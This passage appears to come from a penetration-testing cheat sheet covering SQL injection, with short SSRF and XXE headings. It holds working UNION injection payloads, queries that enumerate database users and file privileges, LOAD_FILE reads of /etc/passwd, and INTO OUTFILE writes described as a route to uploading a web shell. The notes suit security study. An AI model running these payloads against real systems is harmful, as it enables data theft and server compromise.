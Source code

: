   in SQL merges the columns of two tables (use junk variables to match the number of columns)

   `cn' UNION select 1,@@version,3,4-- `

- **Read / Write Files:**

  - Determine User

    ```sql
    SELECT USER()
    SELECT CURRENT_USER()
    SELECT user from mysql.user
    ```

  - Determine r/w privileges (`FILE` privilege)

    ```sql
    cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- 
    ```

  - Check where to r/w from (empty = anywere; NULL = nowhere)

    ```sql
    SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
    ```

  - Read

    ```sql
    SELECT LOAD_FILE('/etc/passwd');
    ```

    Read the server configuration to discover the **web root** (to upload a shell)

    - Apache: `/etc/apache2/sites-enabled/000-default.conf`

  - Write in the back-end
  
    ```sql
    SELECT * from tabl INTO OUTFILE 'PATH'; 	# From Table
    SELECT 'string' INTO OUTFILE 'PATH';		# From string
    # If used with union do select 1, 2, 'string', ...
    ```
    
    Use `FROM_BASE64("base64_data")` to write long files

#### SSRF

Reach internal IP addresses

1. Fuzz for ports 
2. Fuzz for Internal IPs

#### XXE Injection

*XML Entities* are a way of representing an item of data within an XML
document (markup language), instead of using the data itself. E.g., `&lt;` and `&gt;` represent < and > .
